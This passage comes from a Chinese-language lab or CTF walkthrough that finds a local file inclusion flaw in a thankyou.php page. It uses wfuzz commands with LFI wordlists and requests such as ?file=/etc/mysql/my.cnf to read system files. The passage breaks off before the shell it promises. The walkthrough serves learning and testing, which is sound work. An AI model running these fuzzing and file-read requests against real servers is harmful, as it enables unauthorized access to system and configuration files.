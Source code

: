  

![](https://pic2.zhimg.com/80/v2-e70f9c4bb2f29a4334d20d2a43901859_720w.webp)

  

我随便提交了一些内容，发现了它会被提交到 `thankyou.php` 这个文件：

  

![](https://pic3.zhimg.com/80/v2-0489808f1e8d2a41d8d751c259d2811e_720w.webp)

  

## LFI本地文件包含获取shell

看上去有点像 `LFI`（本地文件包含）漏洞，紧接着我用 KALI 自带的 wfuz 工具对它一顿FUZZ梭哈：

```text
wfuzz -w /usr/share/wfuzz/wordlist/general/test.txt -w /usr/share/wfuzz/wordlist/LFI/LFI-InterestingFiles.txt http://192.168.1.144/thankyou.php?FUZZ=FUZ2Z
```

  

![](https://pic3.zhimg.com/80/v2-540673f502cbc11c22f66d40e67dff16_720w.webp)

  

由于`FUZZ`出来的参数太多了！而且好多都没有，我两眼一迷的仔细找到了一个参数：

```text
http://192.168.1.144/thankyou.php?file=/etc/mysql/my.cnf
```

  

![](https://pic1.zhimg.com/80/v2-9fcaf023bb9716b2e70371c7cdef099c_720w.webp)

  

打开后我发现它可以读取系统文件：

  

![](https://pic2.zhimg.com/80/v2-cceb1157edff06d82bd15befaa1a4ec1_720w.webp)

  

这个时候确定了它存在本地文件包含！那么我继续用 `wfuzz` 缩小我们得到的参数范围：

```text
wfuzz -w /usr/share/wfuzz/wordlist/general/test.txt -w /usr/share/wfuzz/wordlist/LFI/LFI-InterestingFiles.txt --hh 851,835 http://192.168.1.144/thankyou.php?FUZZ=FUZ2Z
--h 是过滤Chars
```

  

![](https://pic3.zhimg.com/80/v2-5e98d626a0b26fb61044cce7254fffbe_720w.webp)

  

这样我们就成功的得到一些可利用的参数：

```text
arget: http://192.168.1.144/thankyou.php?FUZZ=FUZ2Z
Total requests: 2568

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                
===================================================================

000001714:   200        44 L     68 W     861 Ch      "file - /etc/issue"                                                                                                    
000001715:   200        49 L     103 W    1121 Ch     "file - /etc/motd"                                                                                                     
```